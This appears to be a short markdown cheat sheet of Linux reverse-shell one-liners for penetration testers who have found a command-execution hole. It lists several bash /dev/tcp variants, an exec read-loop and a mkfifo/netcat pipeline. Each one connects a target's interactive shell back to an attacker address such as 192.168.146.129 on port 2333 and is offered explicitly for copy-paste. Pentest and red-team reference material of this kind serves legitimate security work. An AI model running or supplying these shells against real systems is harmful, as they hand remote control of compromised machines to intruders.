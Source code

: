# linux反弹备忘录

If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.

If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.  This page deals with the former.

Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.

The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.

Each of the methods below is aimed to be a one-liner that you can copy/paste.  As such they’re quite short lines, but not very readable.

### Bash

Some versions of [bash can send you a reverse shell](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) (this was tested on Ubuntu 10.10):

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

```bash
bash -i > /dev/tcp/192.168.146.129/2333 0>&1 2>&1
```

```bash
bash -i >& /dev/tcp/192.168.146.129/2333 0>&1
```

```bash
bash -i >& /dev/tcp/192.168.146.129/2333 0<&1
```

```bash
bash -i >& /dev/tcp/192.168.146.129/2333 <&2
```

```bash
bash -i >& /dev/tcp/192.168.146.129/2333 0<&2
```

### exec

```shell
exec 5<>/dev/tcp/192.168.146.129/2333;cat <&5|while read line;do $line >&5 2>&1;done
```

### rm

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.146.129 2333 >/tmp/f
```
